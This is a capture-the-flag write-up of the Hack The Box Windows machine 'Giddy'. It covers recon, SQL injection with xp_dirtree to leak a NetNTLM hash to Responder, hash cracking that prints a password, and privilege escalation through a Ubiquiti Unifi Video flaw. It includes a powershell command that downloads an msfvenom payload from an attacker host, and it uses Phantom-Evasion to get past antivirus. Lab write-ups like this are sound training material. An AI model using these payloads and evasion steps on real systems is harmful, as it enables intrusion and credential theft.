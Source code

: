 ```yaml
---
layout: post
title:  "HTB Giddy Windows"
tags: HTB, phanton-evasion, Ubiquity
---
```

# Recon
1. Nmap scan
```ruby
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
443/tcp  open  ssl/http      Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
3389/tcp open  ms-wbt-server Microsoft Terminal Services
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
2. Gobuster
![](https://lh3.googleusercontent.com/BI-edrIfyhlFDnmPTGTKrtJ2vQGwXOGjKafUJ2kO5f34UGqlWhoj-9ScJiwiVSFPNaMtaYaMOLWwOREWJs0y8WgWvT_oHBXBDPvu8TqC663NrCrqIwZYZh_xQnNMihwmLxK2_8mcZVDBJTK7DZaYfmMpQWo90psQloOHzhG4LnHaReGebpJM-vak9rqoVHh1U7l0dXrBRtNIEIcLqKY5eBwyVCWGDupR8BY8dEGJbCz0kd1EDdtKj9yVaOYlHfqzgfLOOP3mfGkeiGiMOzl4zoOTxUsPbJqRqXT1x1dFlnoEwVbSPAu8J7CNLYincbEtqWNWrWbHuz85ebqLPPKWVANTRjX04cn4vb5nGE0E-7Amc-S3IByvo7_tNQdrw7K1E5ZYyCEPi2RaCLcIgQeZbe_DPycx_kzhYSGEhrN2tXTjKLdmNMd6DvZT13Sbe1Y5bWX0Ym4kDbIJUJjmU0XQiFEtIm4E48_ZaZWXtjDjbKEKeQ1QqCITD_3W8EDqk1mDV9Eewaj65Uf2pcux2UJ5kkuVhsYVEBiN9jFO0oI7RfyljguHAHQIiAPfRrWBkO86sGRQZaD1uazfZYVbhGpVZRiIJ2SiKKf49nSES6BWrbkLdPpKJz9-Pgd8l_iVvoMc8rH1zBW1HTEc0nz8DcONs2adeQ8qK1et-rBiRwmy_u3muRpEg8DUYzA=w536-h242-no)

3. Under the remote directory we locate a windows 2016 server access page
![](https://lh3.googleusercontent.com/J6Oz4XAOScSw39O-a6-KMkLwsBofcOeort1WD9Ik1lli9LyX55oQId4XiZj6dQ2x7_ICnke_NpQgWvYCZApPMK4Nh4i5Egos7Y_KAEWjPU8DwiQyR-C7YCpqHknkMNeIp0GNhPJru-Q7x0bDVNaWxX88UKC1LLb3CHujrgkP9fwbnbezU-ZcjbRJGaeKwGUU-C3PfPr6mhiyb7_uLEgiRGMZ-MEgwnsOM9lkvjRT6_9KM69HfCsK6_JE4e3yQ5P7TDrNx2Okh6ZBAcFaeN0Zbxnfg0VUZZEaHTutY1rkG9bBM0wsDp15VsYj9aL8xJCMcww7FML2zzUlKMac6SkMQUXW1DADbniuZRqAzcI_eKUtKKHHyD5wai5iYITnEiUvxxdywY447ApAkoikzvwqMYKx1LvMu2zinFkkUOTNeALFIb5k30Ih6P-a2WSZuja0snQ7daCjkZiGjAg1BHRgEL8Pa1T5Wz1OTjlME8zJjSTXPGvStvcSW0hq9HjflqMFrZRFXGuFxaSt9IbsoyAgfWaEo0KuWEPwA5D4GJjjiCYh2NcEb8Z81ENgg1T_OTjm0iW7HzUDIvM1nH7pmSz2VonwJVXfZrxrO15HBlv4eq1uaySghgWL2U5hKox-AqEJ-s0vbubO5qREwqAaG5y_o9OkoiyDUKoRkSLwzWPgYmY02U5a1V-HKzY=w541-h491-no)

4. On the mvc directory we locate a web app running

![](https://lh3.googleusercontent.com/OP0WSgijUfKtz7ctVxeVmwpPFXMdRL873voJBnvMfcWmhL643M1Rnr4kabgOOe-oZuniZBdQmlJTIibsZTQYz7z-jBrIrLvT52gBZKt2r1_ls1S1BfQrrimq-4g9Cv4p_27evdQq8EJzE-xM-AeXPkMbun72EBpUirDiQd3A0q_03_HAW-PQve9wYCHhdiCEyjI7KAwLcp3faC8jcLVsWwJqHujrgNdBZr2YV5-U7jQclyDf4oqBMSKeXYJUAC07itY_02QSSueyImCleITGS8lvArh0XmLX3VvJv_6Mn4t-GjHgGun1JJN8oBnyErNdm3H72tQEMCTCbXj5bdV-_HR_nkQgpbh3q6yZGGrxQekYovBEubHvu18hSKnNPrA3yx_FDzP2CuCNGquTcZ24rFq_-JfCsQL2j0RVK1Xwu9EILvR94bDPX68WysVUyLCDqc3TDFAhDdz2CgeRrZpq0L98j-ji5vWigb0pPd6W2mIVo8XmzE1AR6kMBA4USBFQ1r-G3U0ZQyQGgj1jq-22QAkcrs3IPJCn9U_7ztRwTP7FNn1sBpbRwh6Oz-Qvb6nqeQ-GuQ4sCvMD-X9b6ak0i8LLaW1m3qZKtGwDdA_TW2536o29a8aZXjOoNOJkoVtCxhn2MkTUZOkY6cJujOYKMi4YtbMIvtSGR-WcXAnA5cdpF1CnbkVszb8=w299-h539-no)

# Exploitation Method 1 SQL Injection and BURPSUITE
1. After a little of trial and error we find out that the web app is vuln to SQLinjection:
> caps--

2. We start Burpsuite and we made the following search request to the server "cap--"
![](https://lh3.googleusercontent.com/FKdkzadYk-1azIEIbC2GZSkd5fxsNOqhCyeEkTkxB_4Yx941c-OZCwai5HPN18yS0VnnRgcA60eOt0skhJUp78KVDgQpB8XlL3KAGvW5jEK7nuy2jgvGJqDMzqRQQCLiUOQTzQtiImFWzVOW3XeiaK6D5nivyPfD8RqE35DYt5KaaY-cMix-WGtGUXu-lO7Ox9nMfH8mITBwsSrtftWX9fnjWt8Nv_EBoqH1ZVIk8pkvKJn6-CvPBB_8winhtT5J1b-6OCVvmPmsayglUqGbTyI2hLCLl2_BAz83NvF66gXTflmLiH-54jQgaIwtcSh392ju9Ki08_ya_irKErB7A1XB9_GJMMEOyAb0N5SZi_WD3NnqRzU85igPoXQTKHciuu83Mbxlhh2ptSFDFFuuaAiTbYtN2H92k6sPi3zRedHk4r4EU4Cga1yqekZJvqjnZiv2Yn0nl7eBc2Jf3n6wUCyE79bl0euXwVb5xYA0fb2c5UqX7aFrwvtbQJ5YUoxrKhTmD_gVNowlaKEs-6u1CG0pN2hhUwgnXwBKbEidbpW4fwgmrRifVxE71OA5J7sS5OPSZm6sKLcIb15jFgM8wfLvrPXvYzl4nCDZSo8fbK5jKmDCvOZ_0oQESLLVP5dUC7imqA_EYS4CLoYlZjuDdifwFGQl_HxLz3xdYRfYMVEXWGAJhk4AkMM=w619-h263-no)

We capture the request with Burpsuite and modified to
```ruby
' EXEC master.sys.xp_dirtree'\\10.10.14.34\share--
```
![](https://lh3.googleusercontent.com/JgzHhVf8_J_jIoVDEp9k3eDrOwFggF0FL4sdq2mwJZs4G-02v_qbmFfzf_wteAwV7TEo3lV8qciz992XRqJmHbnA_HWRLWSJMfP6GtXBDe_u6dmlQPrPS7cks-PLGkQOX9sarzCObJe-ZTxpQR_2NKmTnpHlTyL0e5Rdvue4ZBR2p3DAppMIuhFMVAxL2ZitGk7R7979KzBKd37hFRVmuV7bP2ImnMs5_UIz2RZk7aSC1-X42rG_fqyXhppHTSCLl9zyJPi1LMSWCAoc5SXn8eOMz6jL2aj4hcUjh2Il5c0fMj1_0GRVJJKy0AQH6huvbjx1qeJkkx8mUmpbCRTJVanPHw5A7Cr3TGdbBtIf68LX45bqsQI6pDOhrEdSeyOH02lwgiJXyINH99Br7lGSYCUhhawlfJqchaTSXwjPazzz2u34uZVcbvP5qwELgHHweezZu_sa2BAle4YDcfjDdsw_Y1LdcheJi9xvuIjNYY3-H6AUkmxIUkvV94gIPxS5zNiOt2NgWkPctBCMYnXSdlRAtKDXRWiMRQYxcb0Hms7YfhhaATnJWa7EymHlWZYS0kWWZee2vj1dPNB6u-i_w5d02BEuXEilI6wrXF8ty5N84xPiMryWwEJ26UZEIrIw0M7bSQJzOhtjCK5CjIklYCGMS34VfifD1-5koUJM7AY9ldrkYi7UN2A=w502-h45-no)

![](https://lh3.googleusercontent.com/RfSI-hXdwgfsyrLFfiwxWRgtReY_4q5HLxjWxmAy0jN5AYfPjQ4CF-uOndfXwYdjdgN8v16n6d3VbOYRbrgmeCpC5Lm-IiD7oryKIJ9YtOh5uShrOc0Z1cI42y1-yx0H5pHD3cKC8ZtsKU7tmyFaAAwLzx_je79_SimX8kgVWMmckZi1_voGMCKCDF3lLwLGqhdMkzwsj1OttU1yZzVU1CZcer6hArp9AM39m4Yh4HHtvxElTliSTW9G6RixZg5_q9wj1IrUvDZeOlpEkLoKFgyVWPnFlv2-NUNV4FH2Gb9wxzP2KfybS5n5092joMvGOIQSwgvPDBFgW7bZyDlp3QqtRkWqKeLvbZQEZ7tnVMChVvbTAD1wySMxL4W4mrp7rx_7sKIxKngL3-QSic00DjcbKzbcKh03SQSpJlS30ptUCB9jQSjiG6jHme0tHrnRw1jTGU9dz7qzu2fRFI7gzbgqMgg3GCeoXfjYwBBoDVqhWfTF4rEBKPt_dBr3ivuBUNp_6bZzOr8-MhQkIwOgvYbcAeq0x_ehYyGLed5sHIamV-w2n0XSUV1YZCueZ_NQz08HFOz3mUy-yL-waq7HYb5dKIYuNg9vjdzvKpdJa340GJMse-PLc2ke9Gm3oufKIyNuliTJkhl3x4CmP9uar9nCNUWtnGXt3Sg3kEb6Ln26KbEfq8irFGE=w748-h42-no)

Then we forward the request

4. We run Responder with the -I tun0 option to set up a smbserver to capture NetNTLM hash
![](https://lh3.googleusercontent.com/7q4nGUHEgxE14oi9mRAeGS0V1pjZEhHBk75K_JQo_PmsQItz9yiy4QJXmlWkO9eAE_YuLs5UbQIvQoOWuvB3og7S2b0jRYTbJJi-_EQXAQsp4ILfUFWdiHKJ4slpJ6c_fIA57BSHtWDrLkJ3JKfGla3-bduZ-ay-Aruy6Kxw1ONNHu-wigYF2wxFClBBm8JkLtW9heCYtGEx3IljmHwF7lyvQ2vtZfkzH0wOPKNQWGSScagJNz6ohuuceWRPRp3PKJUqBXATDdVbh0m_MZkNva8ExDVaepuLNUR3XirD5lzVLzasU4riv3fzPzP16NziP-1wMkfJmE-rEzNObmo-wtkiSiTv6L1HII1-kV8O-GrDNYE6ZcFuo2efTr1HbRrUZm38NxaBloymbXJLcwbRxVwAuRnzIq2L6XSY-MJdCRTwVVFBxsa4HZBA7TpD1sQ0r45jqLDC-xywXXvaiKSa7qWdBZb9U3Kqg5xHya6aJ7s0A7bpjRJsUgy8R-l4261GrUBx-RrO2C6w2bxzLr3GG4ecbsYm3MUr58jKS0ddYks-Fl1nFAm7zRyummASwprCUX7A1WK9QRLkFm1KPC-i0qyQ9mAp1BRiXE2FCdOxZlJNBDBW4NQeMxON9Ow3DfEkrxbRJfAxXGfIv_GvR19iUaiw8fkIPmEjNkp9_vCYCLlMIKgCN7V4_C0=w539-h457-no)

![](https://lh3.googleusercontent.com/ph6I7xdJhHJr6bcILHcBgbbMQ9ZaMrlLPNlN8e12uEiVJo5MTQy9YUS6NvbFsyiv5VaYmMj8JIDB9SBaMCcj0Cdc-BWzfpeoUYJM8_gqwGKLa9BakOILWb-A9kDYerni0t4BV6FHH_G-uQ1PuasAozxTjsFXezv2a2HHYUO2ddSXJ1UBnZDxWw7jlG0_PiPFJJjq6QddqpiJqzk-QHDCgfA5l2tiArxATAW41U-pAO-BOqdppe9AR0z6fM43r-FojICbQUSHYl7QlJ6q6OoqwzI-HPKYZyrvs-_jYiNx8bCr-9nok5dwKkraCs3gXgTay8RexTh5y28EIugsLwIdISJbG3f8RuOw-Rt9ypRHiwS1CWLF8Jt-iX5dhtRjquyy_7d3Z8qb7yQI4KXfNSAPIwp6Taf-2MWsQOn7n2AXVZZwh-STuIOPWsbsM2YJVMj-TT1WokFVkF32UxRvM9Xq3NkFERX5cqyLpU1SLjE99PzCCGeGvJkyZNABemguLZs-HzzYdrRZXNsUdBS9EUPp-wNiQJswbtNDEJgv06qiih1dDowMNmCH_jyW4bl_aInZ2KD0dR8Ali35hkv2dn_LfMcJhqMyf9QuYiFGoGEoNmXmldjsLCwpnWPG8Y-zMb8ktDQmZZUPLscXFnKCXDmDOBalex1EiZiZaV2T_55svD5aMH_bnpMzruY=w731-h316-no)


5. Finally we use John to crack the hash
```ruby
Stacy : xNnWo6272k7x 
```
![](https://lh3.googleusercontent.com/Ld3rfusYNEDBKzkLNI7KzREgoy5dKvJTVa_xIDdkreu97y0MPtE5U5eOhsWU_FzSoMSZiZrln5FeZTJDzm654_SMcJ2jjVL-0NXBd_HBvGDd7y_9qRHYe9ORM_j-5uGhWFGFmZ48vPk0cR90n6Fudfq-76u4OlmqNXpNuLIcxiOdIDRiKps8c0XtBLe3JPshXp7VGXCRp2QxJp1OdROSu30FUnKvovDy8FCAq-irxKricAqo4awKiFA4qcQAsPzMFPllg0D65IHQ4VyCsZaUubG1lkn-hJ5RGqubq3aEEM4oFMGkSSCU0AmZ-YcsMgMq5t7e668uSWrKB77zF3LXiyS9jCojkSNLLXiaL-lVGQU6DMfv09_HKS6oWqKs8fkaQV-jQTO4x7t8W9HioLklHc8fl8kbhAdCvQ4lUtaYEZPbGEYpjskPeyihYado5t5qGaRhP5wLnaGyEf1yu_ymdRICau8tGtMzmk0_1c71BwbAI-Oqi3tpSKF4E8kvDH3r47LeY0g09FI7zNcyNMI_5d3OjT6USIVNhf8JqILbZpu1vx01fLCKkiimyoj8Q7kGOYV3L8QLo4O0H-QdkRB76l-AzjvhaIZXf5guYi-aIWtPSi6qRZKYvVB6D1ZkvHYB0XJq6iscg4wf9bXYsjZmkfXDrOCK8hMkb3uOVWlE1WwUx4Dfy-LSLjY=w966-h213-no)

6. We use the obtained creds to login into the remote directory
![](https://lh3.googleusercontent.com/yDD038JTEJ9y1yOpW05oY8BZJzHvb1XP_Iu9_ymnk7CRgCnl2zBxFd2yZaJcg-x0Xh6XJ-OsyMOZaZbhfb11K7WCEvYeEKyJkmpkcyzzvSQbF2zelxiQ15FtSqS6Wf_SC5IX7e8rFXnalsOn6WBuD5cx2OOEQjrn5P08UrtPZmdbL4oA2u3ep8RfkOY3Qg5EGo8Tp4OmPCn1VHiqNUaGbRFo0PH2i5frgng_s6S46w1jJ-PYZMaCkHYgDCoRsVTnqvBdPukg4P8lLmicNOWzboFAjkRc_LKlOMtHpUAffNgQDrCOlg2Rf8NdwfmrDT_rcavv8xQZR3m89GCOy90RqOgTeZaA34WB6yy4FkB9ixQETRabyVMhwPgefzOHR27KKCM-QWfqK6j-r0fUYcnvin68w4ekUJnlOvEes3DwTiN3s3-IjDqWjRbEBIBEEibr2tSKTqw-KnYROR_FOmaKzmx4h8BZJiMPx_YafbKR1GokRA8QWCQLAaZDjWuW77zw1bJuL5HqWb62w59WyQjbfbdvRDz5rIJ_bIGUoo1ZUey2-s7wZuSbveggg_o9-2c-xpuD8s4Eu1ZUidzVERWaJgr0IbIUeP4pczltoE0QN5-GPHfPpR9xnwxW2TrhSr7KidL43gj-9vWtIa0DiVL8D5cQ8wMkQAKx4SJYOyFmvOFnTEZ8Mt5uJeQ=w535-h449-no)

![](https://lh3.googleusercontent.com/Q5fYcnepRnM6I4jp6TNaTwG7VjBhqhuKS84h1HMQ3DoiTO-SGhT5ZlcBR3un5pdD20OT4vhvybNQWFbotC14jpLh8wFkSRpYIBbmO7ukHqx7w6zrIkGJqqT1_hTFP4gHwijc3alBUTM0kEa1nOIhO0m5Tb5nXr5KtWduqmKhT19HFIFASBXpagpmzquBaj6DIa_QW-AqxXarzLRW4D5iBXzGZMA9YQgHU3mLgFmhRbyo_NrVfUGxSDIWsmdJmBjP_uL6_exCuksc0Xl4ijh0mNNPnsVW6LtuW0N5Lo5vkUIy_1bvHbHsc_mwg6aHxhtYacGjLGFjVqz-CZ_5hxQ7SkqG4NpwKZRzuuwZMwAnlwcOdFk_lzCgS3KpFX61N4BzavGjLhh3KWLVzpFir8VMkUyuodAj7fW_Y4S-pCV7idZOGzIRG2wUeUtAq5H435M9zEG7T8cLvSHLwLboN409GTzNWzU99oP_1xpvxVtHY2U2mjjTKZiYfeEAYROWiMlLPCXzMG7ewWLgum8Ze18fxXZv0Xd4YHl4_3Z8vcvAFUAEho7HZ2nrnuEgEFq2s9BBDFNam-4tZB7hHn6vUYlJSYAEUgO_Xx97ALKBLOx35cm4ONqxo2l5ykoLXManzSOtz7nK-Kol-pQkRr4EyXYCRnfHoZbUQ1LXRkpId-HDA_R4jNksDJ7siwc=w741-h513-no)



# Privilege Escalation Ubiquiti and Phantom evasion
1. An find a program called Ubiquiti Unifi Video installed. this program is vulnerable to local priv-esc CVE-2016-6914
![](https://lh3.googleusercontent.com/jPghooY3yguXMcrVvmA8LEc7I-ZScfzCNAl6X1F5dWkI0_c-G6Djplxhw_Y4EOskSCNg8W8APtKfhojobEGsWIcQOxZgFo_xqYgMkt1cF0PnxGJg2RmAbWSDz8JTBkmGupYccgS2U-zpk8hvcGJOCN5cT2z6vhehRjCyfzclK7sQh0QAqLa5uYokB5-oD5_x3nHws5Ld8spcRwS0Vaeq5WrZTpcZrJaPsZ7BI6FPm2RNwAeCSAq8r0qvpo_IjExIy5xuIZWingxMFCs-B82uK3IT8Gj2OEVPIwem_WdhZaV_vwXV05Bh9LLXQ6C8ljQovFYNUqVaMlZd9sg0yLG8HuVdESZlzyHqe0JPkVjnd4U9KH83660eCdOjhn37pA_3AXJ2sshZiofutjlPMFHDr5U4xwVzZgzw-RTBg2CmQOHPbZPS4H5Hd3KiUKatnChfuynJyTvkE5IaAY95b13NLAElYjKX12j7lqzPwaj6wevfHiCBAObfgI8DeRc7jcZEZZAZOYWW5xvpCoxJlkRpwfvszLKDEQHKCn-vQPRffZPIcvHMeeNcf4WesJYJx_T5OEjoRsuHENigT-99kXGVxhN5U9sLk6XDB4nuFL3_0zrRYbpWXB6n6H1Bnp-tcCsRKCy2h9RTFLonuzY1nrgKAAxVIFifGNWQ7geocadX_CDjKmiZdLz6_uk=w742-h365-no)

2. We create a msfvenom shell and uploaded to the target machine.
```ruby
powershell wget "http://10.10.14.14/taskkill.exe" -outfile "taskkill.exe" 
```
![](https://lh3.googleusercontent.com/e4hKPGYAR4GPRWmWFeNhrJKSE3gmIQJ9T2adSWA3mJ61QoyNQLaiMy8tRG2sp7zpAgM36qyTPqBTdrYDXSlLbDPKUKa6eEY4Etbx1Ym8hYz7epeEL8kO6oTmGl3w0IHkZV3oVE21o8Z4oDDBTb2ef65swOkbhHt2yJir9KrXNUXa9Y1r3AbfkpFMsccbPDzAh5v8by_6Wrh9oTmkrDUuov6vGbuKWa4nQhq7nG-stdb2a5BoMPLjyZIgbXnbQlz1VsBPvu4Y_c36vLwVL4saWDautFm2FGD4M1Qsz45NwvX6BL3Q5TqZKqXuMn656JviWXEvGimiTvYER6YGMxHG74-HWu5KwbsFLQBR-b4rHesXC1_w7mudRv9ILBzlfIQ5y4W4fYIyDxwdxaArB8atBcHCnV7aGV1YaB1PssEHv1KLWYJgZbcOLDivlrsXb_Hpsaw5KRzorZY2euBEGfadgCUaJQi6OvlhJS6CNiI3fGIMmcKZNbw5mG4puPpiB2xrcKg5bKX7JPXSIeatBQYSSfyRhk5Krw8EXUIA9NaOjQPDSmhwrhk43jTpFCeINllvDJkgQKGKFV1ThUBPZeYlt5DyVrtCWofgZamnughSmklLZibDI4QagAuu_8cQLUXANqOrj2K5ji1Xo9tIDohXB8-TMJ3AKLsJ5KQfQdm6H-5eelVSr3DOwpQ=w447-h387-no)

3. However antivirus detects our malicius shell and blocks its execution.
4. So to overcome this. We download and install Phantom-evasion

```ruby
https://github.com/oddcod3/Phantom-Evasion
```
![](https://lh3.googleusercontent.com/1ZxmrJhGt1Rj7O6leHhEHYFKUCNIZvuILqErnSWLGdHm9Q0fl89ax3oD-Ec2TiTg8ZiHeq5TXX1rtNkTxoTRoXb-Bld7gCfC58z6iD9ceiAV0-hPOxwngcVD-Bp8zGNnyfd75boGmsQgtaZyRAu5_50rzMktFA49mBj6slFf1Qjj0VUCiFSvDnBEruau5vVTM-K-lqTMxe1Fv7ff56f0WS9512qmmDN5Fn6piI9KwSU8wH4KrasEygBITP-w12j7jDv6MSV2a76Onad4oNJ5wCqkILv1cf846BDa2AL5ufYe-gZiAt55y_qNXxot0mLGfHKWpWljYaEh4hsKS0WAflUryHGYtV1oHvX232DyUVXDUJLXegNThfrGa04puTB9YAq6-_wt7i9fy-wxQRQL4YiR2mrb0dy8cXjwlVeu_0gb90qUnP4wYJhvbU7joJQlHck_2tcf7p815OeV-t1C8-Ca3VYLZSxkixtTRGbTAlPFISSiU-6IYAmSpL2AAUrXIZIhYZBKCZkKqDUaUzCKLrj-u5O3AVNSwU3riS-NXb7M03Gk5LGWQJ7FxkBMv5K4cM1xdkuxCUAE7TpxsB_4Xi_pDaUlS4jbglhEdIMfve-oi45vtmu2Pqd8QzBK5zUflCE6x8c9hRRD6wSalN5fCSpxxo8_TZo49og71wmJjxKjG4u_Mg6b5yo=w758-h456-no)

![](https://lh3.googleusercontent.com/JvQgPIuekgZ7_aCp8e5qNuaepoCSBvAS75mvKRr6FaMPPqA1JYahoOHUbya654H8_8e0biT7Cr3Ochk_IGcJUJnYMdP6zJNHpnpbE89ZxZ_WtxOFu0rhICNAswwWpEMR--TYMDxzaAg2GK9881VE-zxmEuevEsfuv8FzukUI3azBAtgVtcgUbRCF_ktx3sOj7xEe5vhLS7YxPkEW5pQq0VHZ-yEPFe53Fadtg1gFylg7P_EGBcoEO3dInTOW5fXYA7ev7NSz4yUxT3lqZNk7YM2MWhMiq4FMNtjMcGBWziORjE5-mHYRJpGHngQ9eefrIWr0lKyKAOmU5_iGNIM56cMyWAUJKPieYU8uvCjllmUK5MWjeqCcRE347S23KHY4LZDPw6GhQqX_ykz0K826z_bnr_fh_SDWaEOeWTHk2ggV3kokMtUNaolw_4HAyAB5v6cgvAwo2f5ivjmAS2BXSRRfC-fB7C8Q5RneBnpSxD6Kh57pjP8uVS8pfjJDteBvEYRFG_0jW3eKNwAEh4h7jHqWnz_dRRNw8hO5JvtDpC7y34wrAjdFsJHMz-tn356p9GqsWJncI1k-wP5AW_Sopn2N__sYSmEOn4S98Y6omX_iFVbk2WpZc62qvn3dJvJOLEawX05w1E8Zgkvg1GSegN74Q9kb56iMYwsr8y1CAPiJ-045Ymey1YA=w545-h262-no)

![](https://lh3.googleusercontent.com/poOtQCySlDuqcMCqHgnTnP5t-8w50fAk_hnypFKsReRwGCuw1nSJswVz9DbAWbRI0ffJ_GrMbmA8N-S6KOwmRobesY7007gd1HsgHnIZxHi9lkhOpOeFHct1GOB-xKXGlxPj4ni47UDMsba_DnS8eWQiXKf96mLzxFre_lys2WxLOu0oHMX6THXXm6q-7N-vs3Pjc_xFQKatevarF-D1MehIXlY4yxJUxaTCr-JfzNSLk5QxdHcz4CjD2946QQXIETTdsgfLAWwNNalpD5o4vSkoMRpgV0cbE35P1AuOZwCg4CE3pmhESzJj_UM0jHOv7l-rW9TWukTWmx99e4xlD7p1YlZe-vM9K7nIFKAuOZwC0cRQiQiI-YwPErUq-7oBIQdIuhQVwivlVGd4p9MbOqkjxydfr_PW7JgKhmPrANta4uQ2-k8CZz7SolLe2B6wJXXF7z_JkLJJl-PryDpDGwYOLB7bpaGI2f3F65h7qNmSxSY-5rfuEhFkcC0-6BwvZPR_my6vaGrJc9FW5wKLPcuDoB7YFEwtSxwaxiceXrMSS5AOSGYke_19RRyMWpL50HRwyXHTUcO4xNKfk2Bg8fh-agB0iAEXuZkI2Y1FWZh-ZpvTTrOh_ybqj_8BiPi0-tKWujxSTYi062T9VxV_uycykAVESPfYvQ83NovBZP4tTjxAt804T3k=w748-h299-no)
![](https://lh3.googleusercontent.com/YPgKlq21fNw2vIMg33yvP9XA26cvybgzgQYOR_tnaArTcEP_TMptEb2J8gxulQyyKctYTmURd1trE0ZOQ08AiyqNXWqw0hXtmDvooDv52MNDozE-a7z1QueTGVffOGps18nEtnFj7dEG2XS_dEc5-sGwv1ri4qQq4jp9Jd5PdsGv49XuuPwPh7SK-M9W-tOfpp28S4Sdzzlazu9996IZ31sdvIJueHosprbambqqS3LDv7hVcapWT5CkCbWIpKTbKvdm2mt8w1BrX1gT7PvfrEIUiaLbfHmXM5or3WGYo1Jqz0hu8YvSUtGJW1qP0AqTLcLf9AV0EH5yq5R0BvjTgpyXTvpgcIjKyUt6e6SGv-YsTNMZ4BzaXQTq5w89vvJbW4EW7Pld5r52Re5MFnjqA_8Pr9G5lojeiPUEuDWm4L9QXc6iL3_BAyz7XQpSg-5qS7dbtw_tuZu2XyVluvpcaDabGf1V_YV_rR7XvONtFwgK9ae-RoOl6FYn81Jfzf4yuVoM00HIOzOPSr3AzRYmO8yzDEBcuOsM9B1-pQaTzgFqTox0QDMfULga0hjjUEkcrjpiezQnTekVNUh8tVZ1Lh1m_DQM8NvNDJ2mYcCRgnhNCMinmgNmGi58RkIQhLhyc1I20DbJkB7SLzlXNAiCaSHwIUgzY1GE_yvNAkVPa9f_4jHU-bHWzo4=w824-h452-no)

![](https://lh3.googleusercontent.com/nWKEsswWjm6zdZAcAdRTsu83ToTSgU6pZZpwrRYPs9MgFDqFnBoUYWZbNj-lxsi1vEw0FVoZMRUHqgrRShMNGhT8iOrOEXOOmhne-tLmzQv4L3q_XdtWyDiO3w1FqphtXtcuRoNhUWOSvYyTh6F1ht6m8kteBpjKz9k_pZI8_Xw1XjQqd7LvXOCLYCHpByWhTvuLXOxm-HegFM6NLOZmbdV61Jz-DaAdmCiSp72lbQr1YOY-y0OX9hk9nwn3tevnBKFDDoT6u-Y9Q-ItJl_IIQy8euAoOqXLB62ajo6rEBDuvzv_nAhjorzupaPz4-XVjr1pFmG2ahxzcZO1Y6FLTIZ-r412SXk3dWkmvmBQzcLrq_HZlnl9hg6zLTZcyyEKBVp-LUPz5mrJ3pQECRL_YbmaIi8MmNJ0GRJW_NlchlhBFW28-SKX1P6zaeC1q8RGeMJyGnXK58dfgA55ziJN8TAmfw5uz4iMYGE6YXJNYpkvYGKBb0QwjhVxprVn-omFmZUTWjWnWvlZkG25pF7q82Pfr2-tw0pv56f_9CNlzsbdaAGRGzml3O1Xdz9MF2G6rY8BhiDnDmSmGPakl8kcK0mhFKEIZFkmxY3oFQyWzSvHs2g8A6P0dMeN0lpa9iDG93TDP-MSd-AO53i8vaTertnXERoGLXNE0d_rbcIiPGdqfvFk3AyR_jA=w674-h517-no)


5. We create and upload to our target machine a x64 bit msfvenom payload "taskkill.exe"
```ruby
powershell wget "http://10.10.14.14/taskkill.exe" -outfile "taskkill.exe" 
```
![](https://lh3.googleusercontent.com/e4hKPGYAR4GPRWmWFeNhrJKSE3gmIQJ9T2adSWA3mJ61QoyNQLaiMy8tRG2sp7zpAgM36qyTPqBTdrYDXSlLbDPKUKa6eEY4Etbx1Ym8hYz7epeEL8kO6oTmGl3w0IHkZV3oVE21o8Z4oDDBTb2ef65swOkbhHt2yJir9KrXNUXa9Y1r3AbfkpFMsccbPDzAh5v8by_6Wrh9oTmkrDUuov6vGbuKWa4nQhq7nG-stdb2a5BoMPLjyZIgbXnbQlz1VsBPvu4Y_c36vLwVL4saWDautFm2FGD4M1Qsz45NwvX6BL3Q5TqZKqXuMn656JviWXEvGimiTvYER6YGMxHG74-HWu5KwbsFLQBR-b4rHesXC1_w7mudRv9ILBzlfIQ5y4W4fYIyDxwdxaArB8atBcHCnV7aGV1YaB1PssEHv1KLWYJgZbcOLDivlrsXb_Hpsaw5KRzorZY2euBEGfadgCUaJQi6OvlhJS6CNiI3fGIMmcKZNbw5mG4puPpiB2xrcKg5bKX7JPXSIeatBQYSSfyRhk5Krw8EXUIA9NaOjQPDSmhwrhk43jTpFCeINllvDJkgQKGKFV1ThUBPZeYlt5DyVrtCWofgZamnughSmklLZibDI4QagAuu_8cQLUXANqOrj2K5ji1Xo9tIDohXB8-TMJ3AKLsJ5KQfQdm6H-5eelVSr3DOwpQ=w447-h387-no)

6. We proceed to set up multi/handler to catch out shell
